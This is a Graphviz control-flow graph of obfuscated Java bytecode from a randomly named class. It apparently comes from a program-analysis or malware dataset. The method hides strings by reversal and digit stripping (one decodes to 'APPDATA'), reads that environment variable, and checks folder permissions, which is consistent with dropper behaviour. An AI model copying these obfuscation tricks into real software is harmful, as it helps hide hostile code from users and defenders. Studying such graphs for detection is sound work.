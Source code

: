 digraph "" {
    "r0 := @this: YWyRqgp"
    "load.r r0"
    "r0 := @this: YWyRqgp"->"load.r r0";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "store.r r108"
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"store.r r108";
    "load.r r108"
    "store.r r108"->"load.r r108";
    "arraylength"
    "load.r r108"->"arraylength";
    "store.i i0"
    "arraylength"->"store.i i0";
    "push 0"
    "store.i i0"->"push 0";
    "store.i i150"
    "push 0"->"store.i i150";
    "load.i i150"
    "store.i i150"->"load.i i150";
    "load.i i0"
    "load.i i150"->"load.i i0";
    "ifcmpge.i load.r r0"
    "load.i i0"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"load.r r0";
    "fieldget <YWyRqgp: int BBB>"
    "load.r r0"->"fieldget <YWyRqgp: int BBB>";
    "new java.lang.StringBuffer"
    "fieldget <YWyRqgp: int BBB>"->"new java.lang.StringBuffer";
    "dup1.r"
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"load.r r108";
    "load.r r108"->"load.i i150";
    "arrayread.r"
    "load.i i150"->"arrayread.r";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer reverse()>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "new java.lang.StringBuilder"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"[\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"[\"";
    "push \"0\""
    "push \"[\""->"push \"0\"";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"-\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"-\"";
    "push \"9\""
    "push \"-\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"]\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"]\"";
    "push \"]\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "push \"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"\"";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"push \"-\"";
    "push \"-\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "arraywrite.r"
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: int BBB>";
    "ifne load.r r0"
    "fieldget <YWyRqgp: int BBB>"->"ifne load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: int BBB>";
    "fieldget <YWyRqgp: int BBB>"->"arrayread.r";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "arrayread.r"->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r109"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r109";
    "goto load.r r109"
    "store.r r109"->"goto load.r r109";
    "load.r r109"
    "goto load.r r109"->"load.r r109";
    "ifnull load.r r0"
    "load.r r109"->"ifnull load.r r0";
    "new java.io.File"
    "ifnull load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r109";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r109"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq load.r r0"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r109";
    "load.r r109"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean canWrite()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean canWrite()>";
    "virtualinvoke <java.io.File: boolean canWrite()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r109";
    "load.r r109"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean canExecute()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean canExecute()>";
    "virtualinvoke <java.io.File: boolean canExecute()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r109";
    "load.r r109"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean canRead()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean canRead()>";
    "virtualinvoke <java.io.File: boolean canRead()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r109";
    "load.r r109"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean isDirectory()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean isDirectory()>";
    "virtualinvoke <java.io.File: boolean isDirectory()>"->"ifeq load.r r0";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push 0";
    "push 0"->"load.r r109";
    "load.r r109"->"arraywrite.r";
    "goto load.r r0"
    "arraywrite.r"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "push \"3\""
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "add.i"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "push \"5\""
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "push \"2\""
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "sub.i"
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "push \"7-3A3-3\""
    "dup1.r"->"push \"7-3A3-3\"";
    "push \"T3-3A3-\""
    "push \"7-3A3-3\""->"push \"T3-3A3-\"";
    "push \"T3-3A3-\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "push \"3D3-3P3-\""
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"push \"3D3-3P3-\"";
    "push \"3P3-3A1-\""
    "push \"3D3-3P3-\""->"push \"3P3-3A1-\"";
    "push \"3P3-3A1-\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>";
    "ifcmpne.r load.r r0"
    "virtualinvoke <java.lang.StringBuffer: java.lang.String toString()>"->"ifcmpne.r load.r r0";
    "ifcmpne.r load.r r0"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "staticinvoke <java.lang.System: void exit(int)>"
    "sub.i"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"load.r r0";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 0";
    "push 0"->"arrayread.r";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>";
    "virtualinvoke <java.lang.String: boolean endsWith(java.lang.String)>"->"ifeq load.r r0";
    "ifeq load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"push 0";
    "push 0"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "virtualinvoke <java.lang.String: int length()>"
    "arrayread.r"->"virtualinvoke <java.lang.String: int length()>";
    "push 1"
    "virtualinvoke <java.lang.String: int length()>"->"push 1";
    "push 1"->"sub.i";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"
    "sub.i"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"push \"5\"";
    "push \"5\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"$\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"$\"";
    "push \"$\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "push \"4\""
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"push \"4\"";
    "push \"4\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"[\"";
    "push \"[\""->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"-\"";
    "push \"-\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"]\"";
    "push \"]\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String replaceAll(java.lang.String,java.lang.String)>"->"arraywrite.r";
    "arraywrite.r"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"new java.lang.StringBuffer";
    "new java.lang.StringBuffer"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] AAA>";
    "fieldget <YWyRqgp: java.lang.String[] AAA>"->"push \"0\"";
    "push \"0\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"5\"";
    "push \"5\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"add.i";
    "add.i"->"push \"2\"";
    "push \"2\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"push \"3\"";
    "push \"3\""->"staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>";
    "staticinvoke <java.lang.Integer: int parseInt(java.lang.String)>"->"sub.i";
    "sub.i"->"arrayread.r";
    "arrayread.r"->"specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>";
    "specialinvoke <java.lang.StringBuffer: void <init>(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuffer: java.lang.StringBuffer append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <YWyRqgp: java.lang.String[] CCC>";
    "push 2"
    "fieldget <YWyRqgp: java.lang.String[] CCC>"->"push 2";
    "push 2"->"arrayread.r";
    "arrayread.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"[\"";
    "push \"[\""->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"-\"";
    "push \"-\""->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>";
    "virtualinvoke <java.lang.String: java.lang.String concat(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"]\"";
